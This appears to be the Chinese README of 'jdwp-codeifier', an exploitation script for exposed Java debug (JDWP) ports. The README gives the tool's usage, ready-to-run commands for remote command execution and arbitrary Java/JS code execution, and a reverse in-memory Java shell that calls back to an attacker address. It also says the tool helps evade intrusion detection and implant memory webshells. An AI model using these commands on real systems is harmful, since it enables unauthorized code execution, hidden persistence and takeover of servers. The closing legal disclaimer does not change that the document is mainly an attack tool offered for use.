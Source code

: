 # jdwp-codeifier

## 介绍
对于JDWP漏洞的武器化利用最早可以追溯到2014年的项目：https://github.com/IOActive/jdwp-shellifier ，作者通过Python2实现JDWP协议，以设置断点的方式获取线程上下文从而调用Runtime.getRuntime().exec()执行系统命令

2020年Lz1y借鉴[MSF中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写jdwp-shellifier，通过对Sleeping的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：https://github.com/Lz1y/jdwp-shellifier

2022年r3change基于原版断点方式的jdwp-shellifier进行改写，增加了命令执行的回显，项目地址：https://github.com/r3change/jdwp-shellifier

但JDWP漏洞的利用本身不局限于“命令执行”，而且有时候为了规避入侵检测，或者为了植入内存马等，是需要动态执行Java代码的，所以我基于jdwp-shellifier再次改写了一版进阶的JDWP漏洞利用脚本，改名为jdwp-codeifier，同样使用不需要等待断点的方式且能够动态执行Java/Js代码并获得回显

## 使用
由于原版代码依赖了很多Python2特性，改起来有点费劲，所以这一版依然还是只支持Python2，期待有师傅提交同时兼容Python2/3的PR。

### 用法
```
usage: jdwp-codeifier.py [-h] -t IP [-p Port] [-m Mode] [-c Command/Code]
                         [-a Address] [-l life]

Advanced exploitation script for JDWP by @leixiao, base on @_hugsy_, @Lz1y,
@r3change

optional arguments:
  -h, --help       show this help message and exit
  -t IP            Remote target IP (default: None)
  -p Port          Remote target port (default: 8000)
  -m Mode          command/code/rshell (default: code)
  -c Command/Code  Command or JavaScript Code (default: None)
  -a Address       The address of reverse shell (default: None)
  -l life          The survival time (minute) of the shell when unable to
                   connect to the server (default: 1)
```

### 命令执行
项目也保留了原本的命令执行功能，但命令行参数略有不同，执行 touch /tmp/success：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m command -c 'touch /tmp/success'
```
![img.png](README/img.png)

### 代码执行
动态代码执行是通过new javax.script.ScriptEngineManager().getEngineByName("js").eval()实现的，所以语法上是JS代码，但依然可以调用Java方法

执行系统命令并回显：
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m code -c 'new java.util.Scanner(new java.lang.ProcessBuilder("sh","-c","whoami").start().getInputStream()).useDelimiter("-|-").next()'
```
![img.png](README/img1.png)


通过JS代码还可以动态定义类，加载外部类，插入内存马等等... 各位就自己发挥了

## 反弹Java内存Shell
```
python jdwp-codeifier.py -t 172.17.0.3 -p 8000 -m rshell -a 172.17.0.2:8080 -l 0.1
# -a 指定接收shell的地址
# -l 指定shell与服务器连接不上时的最大存活时间（分钟）（每隔5秒自动重连）
```
![Alt text](README/img2.png)



## 免责声明
本工具仅面向合法的学习或研究行为。在使用本工具过程中，您应确保自己所有行为符合当地的法律法规。 如您在使用本工具的过程中存在任何非法行为，您将自行承担所有后果，本工具所有开发者和所有贡献者不承担任何法律及连带责任。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。 您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。